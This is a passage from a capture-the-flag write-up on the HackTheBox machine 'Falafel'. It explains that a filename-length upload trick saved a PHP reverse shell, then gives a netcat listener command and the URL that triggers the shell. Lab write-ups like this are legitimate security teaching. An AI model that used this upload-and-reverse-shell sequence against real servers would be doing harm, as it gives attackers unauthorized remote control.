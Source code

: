 ![uploaded-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Falafel/img/uploaded-21.png)


This was a success, as the `Saving to:` argument endded in `.php`.


So now I start my local lisetner using:

```bash
rlwrap nc -lnvp 443 
```

And open the path to our reverse shell at:

```bash
http://falafel.htb//uploads/0103-1545_4763f588cab25f74/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```
